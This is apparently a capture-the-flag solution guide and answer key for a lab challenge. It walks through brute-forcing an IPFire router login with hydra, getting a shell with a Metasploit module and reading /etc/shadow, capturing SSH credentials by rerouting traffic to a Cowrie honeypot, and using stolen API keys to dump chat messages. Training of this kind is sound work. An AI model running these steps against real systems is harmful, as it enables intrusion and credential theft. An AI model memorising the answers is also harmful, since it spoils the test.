# Why is the R&D Always Gone?

_Solution Guide_

## Overview

This solution guide covers the walk-through and is organized by submission question.

Exploit the router (172.21.3.1) and manipulate it to gain access to the production network. Gain access to the filesystem and chat messages. Cowrie has been downloaded to your Kali system; however, minor configurations may be required.

- **Question 1:** Exploit the router; gain access to its underlying OS; alter the router to access the internal production subnet.
- **Question 2:** Gain access to the filesystem by capturing and using SSH credentials. 
- **Question 3:** Read the chat messages on the chat server.

## Question 1

_Gain access to the router's underlying OS. What username, besides root, is on this OS?_

Exploit the router, gain access to its underlying OS, and alter the router to gain access to the internal production subnet.

1. Log in to Kali and scan the router for top 1000 TCP ports.
```
sudo nmap -A 172.21.3.1
```

​	Only TCP/444 is open. Nmap states Apache httpd is running on this port. The SSL-cert shows ipfire (a router OS).

2. The lab doc states that standard usernames are used. Ensure you can see /media/cdrom0/wordlist.txt on the ISO. Feel free to copy it to a better working directory. A Google search shows 'admin' is the default username for ipfire. Crack these login creds with hydra with the following command, or use xhydra to help build the syntax.

```
hydra -s 444 -S -v -V -l admin -P /media/cdrom0/wordlist.txt -t 16 -m /cgi-bin/index.cgi 172.21.3.1 https-get
```


3. This allows you to find the credentials. As a side note, all credentials used are next to each other (to ensure fair timing across all challenges). Ensure your username and password are correct by logging into https://172.21.3.1:444 with those credentials.

You now can alter the router/firewall. We must use this username and password to exploit ipfire and gain access to the OS, instead of just the WUI.



4. Launch msfconsole. Run `search ipfire` and enter `use 0` (if exploit/linux/http/ipfire_pakfire_exec). This exploit matches our version number visible on the WUI.



5. Run `show options`, `set password <passwordfoundpreviously>`, `set rhosts 172.21.3.1`, `set lhost <ip of Kali>`, `run`. This should give you a Meterpreter shell.



6. On the meterpreter shell, run `cat /etc/shadow` to view the user, besides root, that has a password set. 



This concludes Question 1. 

## Question 2 

_A username periodically logs into the SSH file system. What is this user's password?_

Gain access to the file server by capturing and using SSH credentials.

1. As stated in the lab doc, cowrie has been installed on Kali and minor configuration changes may be required. Run `cd ~/Desktop/cowrie`.

2. Run `bin/cowrie start`. Notice the "line 121: exec: twistd: not found" error? A quick Google search will show how to solve this on Kali. https://askubuntu.com/questions/1415462/bin-cowrie-line-121-exec-twistd-not-found.



3. Open the bin/cowrie file with your favorite text editor, navigate to line 121 (as indicated by your error message), change twistd to twistd3, re-run bin/cowrie start.



4. You should now be able to fire it off and only receive a few messages about cryptography deprecations as it runs cowrie in the background. Run `sudo ss -antp` to verify TCP/2222 is now open and being used by twistd3.

5. As stated by the cowrie docs found online, we must set a firewall rule to forward TCP/22 to TCP/2222. Run `sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222`.

6. We now have cowrie listening on TCP/2222 and all TCP/22 are being redirected to cowrie. We must now force the ipfire router to send all SSH packets that were intended for the filesystem (via SSH) to our Kali. Log in to ipfire via https://172.21.3.1:444 with the credentials found previously.

7. Click 'Status' > 'Connections' to find that 172.21.57.139 is the IP address of the file server (via SSH) as it is the only non-router IP with destination port 22.



8. Click 'Network' > 'Static Routes'. Add Host IP Address as 172.21.57.139/32, Gateway as *IPv4 of kali*, and click 'Add'.



9. All SSH packets destined for the file server should now be redirected to our cowrie. On Kali, run `tail -f ~/Desktop/cowrie/var/log/cowrie/cowrie.log`.

Within 1 minute, if everything is setup correctly, you should see an SSH attempt with a username and password. For example, you may see the first line that states 'login attempt' with a username and password such as b'gilberto'/b'191d2363fa87'.



11. Click 'Network' > 'Static Routes'. Remove the static route on ipfire that you previously created.

12. Click 'Firewall' > 'Firewall Rules'. Change the #2 rule in "Firewall Rules" to Destination Standard Networks: Any and change Reject to ACCEPT. Click 'Update' and 'Apply changes'.



13. Verify the credentials found in Step #10 work. On Kali, run `ssh <username>@172.21.57.139` and enter the password found. Keep this SSH connection open for the next task.



This completes Question 2.

## Question 3

_Gain access to the chat server messages. What temperature must the vaccine be stored at?_

Read the chat messages on the chat server.

1. Scan the 172.21.57.0/24 network. Run `sudo nmap 172.21.57.0/24` to identify the host 172.21.57.100 is running TCP/80 and TCP/443.

2. Run `sudo nmap -A 172.21.57.100`. Notice this chat server is a Zulip server (as indicated by the http-title and other values).

3. Back on your previous SSH connection to the filesystem, run `find / -name "*zulip*"`. You will find a file called /etc/api/zulip.keys.



4. Run `cat /etc/api/zulip.keys`. Copy this information to a file locally to use, if you'd like.



5. Using this api documentation as a reference (), run the command `for i in {1..999}; do curl -ksSX GET -G https://172.21.57.100/api/v1/messages/$i -u backup-bot@172.21.57.100:<APIKEYGOESHERE> --data-urlencode apply_markdown=false; done`, to fetch single messages based on ID (as indicated by the zulip.keys file). 



6. Read messages 35-39. You will find the temperature (e.g., 43.2) needed for the vaccine.

This completes Question 3.
